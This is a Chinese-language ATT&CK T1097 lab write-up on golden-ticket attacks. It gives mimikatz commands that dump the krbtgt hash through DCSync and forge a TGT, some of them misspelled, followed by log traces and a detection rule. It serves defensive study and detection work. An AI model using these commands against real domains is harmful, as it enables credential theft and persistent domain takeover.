# T1097-win-黄金票据

## 来自ATT&CK的描述

票据传递攻击（PtT）是一种不访问账号密码而使用Kerberos凭据对用户进行身份认证的方法。Kerberos身份认证可以是横向移动到远程系统的第一步。
在使用PtT技术时，可通过凭据导出技术获取有效账号的Kerberos票据。PtT可能会获取到用户的服务票据或票据授予票据（TGT），具体取决于访问级别。服务票据允许访问特定资源，而TGT可用于从票据授予服务（TGS）请求服务票据，用来访问用户有权访问的任何资源。
PtT技术可以为使用Kerberos作为身份认证机制的服务获取白银票据，并用于生成票据来访问特定资源和承载该资源的系统（例如，SharePoint）。
PtT技术还可以使用密钥分发服务账号KRBTGT帐户NTLM哈希来获得域的黄金票据，从而为活动目录中的任一账号生成TGT。

## 测试案例

黄金票据（golden ticket）：伪造票据授予票据（TGT），也被称为认证票据。与其说是一种攻击方式，不如说是一种后门，当域控权限掉后，再重新获取权限，因为常见的在域中管理员知道自己被入侵了 往往只是简单的修改域管的账号 恰恰krbtgt却被忽略…

## 检测日志

windows 安全日志

## 测试复现

### 测试环境

Windows server 2016（AD域控）

Win 7（靶机）

### 测试过程

#### 尝试访问DC目录

```dos
dir \\ICBC.abcc.org\c$\
```

![访问DC目录](https://s1.ax1x.com/2020/04/16/JFzcM6.png)

#### 导出krbtgt用户的hash和sid(使用mimikatz.exe工具)

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![凭据](https://s1.ax1x.com/2020/04/16/JFzXdg.png)

在域内其他Client(用户机器)上使用其他域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

#### 清除自己Client端(域内其他机器)的票据

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list查看我们当前的票据。

![清理凭据](https://s1.ax1x.com/2020/04/16/JFzjoQ.png)

如果存在其它凭据，可以使用kerberos::purge清除当前用户票据。

#### 伪造TGT票据

##### 方法一

```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

![伪造](https://s1.ax1x.com/2020/04/16/JkSAwF.png)

##### 验证攻击效果

```dos
dir \\ICBC.abcc.org\c$\
```

![验证](https://s1.ax1x.com/2020/04/16/JkSeY9.png)

#### 方法二

```bash
mimikatz# kerberos::gloden /domain:*.com /sid:<域SID> /krbtgt: <KRBTGT NTLM Hash> /user:<任意用户名> /ticket:test.kribi
or
mimikatz# kerberos::gloden /domain:*.com /sid: <域SID> /aes256: <KRBTGT aes256> /user: <任意用户名> /ticket:test.kribi
```

![伪造2](https://s1.ax1x.com/2020/04/16/JkSMy6.png)

#### 导入*.kribi文件

![导入](https://s1.ax1x.com/2020/04/16/JkSQOK.png)

#### 验证是否成功

![验证1](https://s1.ax1x.com/2020/04/16/JkSd6P.png)

## 测试留痕

正常日志痕迹

![正常](https://s1.ax1x.com/2020/04/16/JkS6Yj.png)

异常日志痕迹

![异常](https://s1.ax1x.com/2020/04/16/JkSykQ.png)

## 检测规则/思路

```yml
title: windows本地账户操纵
description: win7测试
references:
tags: T1087/T1069
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624  #账户登录
        Account domain: '*.*' #可参考示例日志进行理解
    selection2:
        EventID: 4672  #特殊登录
        Account domain: _ #账户域为空
    timeframe: last 5s
    condition: all of them
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1097

<https://attack.mitre.org/techniques/T1097/>
